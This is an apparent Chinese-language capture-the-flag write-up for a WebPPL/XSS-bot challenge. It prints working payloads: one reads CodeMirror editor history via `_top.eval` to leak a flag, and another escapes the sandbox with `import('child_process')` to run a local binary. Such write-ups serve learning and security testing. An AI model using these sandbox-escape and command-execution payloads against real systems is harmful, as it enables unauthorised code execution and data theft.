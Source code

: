 ```python
title = driver.title
print('\nThe page title is:', title)
```

也就是首先执行输出 flag 的 WebPPL，然后再执行我们提交的代码。查阅 `console` 会得知无法直接获取它的历史输出，而且我们的代码执行在 flag 输出之后，也不能首先修改 `console` 对象，所以我们需要另想办法获取历史输出。

观察 *控制台* 直接执行 `console.log(FLAG1)` 和 *通过 XSS Bot 提交 WebPPL 脚本* 执行 `console.log(FLAG1)`，区别在于：

- WebPPL 环境可能保存了脚本执行的信息；
- 编辑器可能保存了历史输入。

两种思路都可以试一试。通过审查元素得知编辑器是 CodeMirror。如果搜索不到 CodeMirror 怎么获取历史记录，也可以先搜索怎么获取 CodeMirror 的实例，搜索关键词 *CodeMirror get instance* 很容易找到：

```javascript
document.querySelector('.CodeMirror').CodeMirror
```

然后在提供的 WebPPL 网站内把玩一番 CodeMirror 对象，自然发现有 `getHistory` 方法。所以最后的 payload：

```javascript
_top.eval("_top.document.title = _top.JSON.stringify(_top.document.querySelector('.CodeMirror').CodeMirror.getHistory())")
```

### Flag2

第二问：

```python
def challenge_2(code):
    if not Path('/flag2').is_file():
        print('Cannot find flag file!')

    with open('/tmp/code.wppl', 'w', encoding='utf-8') as f:
        f.write(code)

    print('\nRunning your code...')
    subprocess.run('bash ./driver.sh', shell=True)

    out_path = Path('/tmp/output.txt')
    if out_path.is_file():
        print('\nThe output is:')
        print(out_path.read_text())
    else:
        print('\nOutput does not exist!')
```

翻阅 driver.sh 可以发现我们只需要设法执行 /tmp/getflag 即可把 flag 写入到 /tmp/output.txt。

通常思路是 `require('child_process').exec`，但是这里的环境没有。不过好在 WebPPL 装起来并不麻烦，可以本地把玩一下发现 `import` 还是可以用的。payload：

```javascript
_top.eval("import('child_process').then((m) => {m.exec('/tmp/getflag', (error, stdout, stderr) => {console.log(stdout)})})")
```
